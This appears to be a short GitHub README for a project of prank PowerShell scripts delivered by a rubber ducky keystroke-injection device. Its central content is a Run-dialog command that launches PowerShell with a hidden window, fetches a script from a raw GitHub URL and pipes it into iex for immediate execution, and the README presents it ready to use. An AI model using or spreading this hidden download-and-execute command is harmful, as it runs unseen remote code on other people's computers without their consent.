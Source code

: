# RubberyPico
This is a small little project that contains a few funny powershell scripts. The scripts are designed to be downloaded and executed in the background by a rubber ducky.

# Executing the script using the windows run dialog box
To download and run a script from this reposetory just enter the following string into the run dialog. Just replace SCRIPT with the folder name you want to use
```
powershell -windowstyle hidden -command ". { iwr -useb https://raw.githubusercontent.com/ToastyBoiiiii/RubberyPico/main/SCRIPT/script.ps1 } | iex"
```
